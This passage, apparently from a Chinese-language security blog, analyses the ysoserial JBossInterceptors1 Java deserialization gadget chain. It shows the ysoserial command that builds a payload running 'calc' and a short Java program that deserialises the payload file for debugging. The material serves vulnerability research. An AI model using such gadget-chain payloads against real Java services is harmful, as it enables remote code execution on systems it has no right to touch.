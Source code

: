 首先看一下在
```
ysoserial
```

  
中最终
```
Payload
```

  
长啥样:  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/tiaKRx8m4Wn6uT0Y9G3mhXadKvVPGSmCsI0dibCToiaGuUle5g00bK2hicnSUia7RxcibrwWdvcY5orIOaF91F5hlBFw/640?wx_fmt=png&from=appmsg "")  
  
实际上
```
InterceptorMethodHandler
```

  
这个类就是整条链路的
```
source点
```

  
以及
```
sink点
```

  
, 为什么这么说呢？这里笔者使用
```
ysoserial
```

  
进行生成一个
```
poc
```

  
:  
> java -jar ysoserial-all.jar JBossInterceptors1 "calc" > D:/1.ser  
  
  
随后本地准备如下代码进行运行并
```
DEBUG
```

  
即可:  

```
package com.heihu577;

import java.io.FileInputStream;
import java.io.ObjectInputStream;

public class Main {
    public static void main(String[] args) throws Exception {
        ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream(&#34;D:/1.ser&#34;));
        objectInputStream.readObject();
    }
}

```
